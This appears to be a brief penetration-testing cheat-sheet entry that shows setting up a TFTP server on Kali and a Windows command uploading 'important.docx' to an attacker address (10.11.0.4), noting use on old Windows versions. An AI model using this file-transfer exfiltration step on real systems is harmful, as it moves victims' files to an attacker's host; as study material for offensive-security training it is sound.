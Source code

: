 ## On Kali :
```bash
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

## On Windows :
```bat
tftp -i 10.11.0.4 put important.docx
```

### Note : This technique is mostly used on old Windows version (XP, 2003)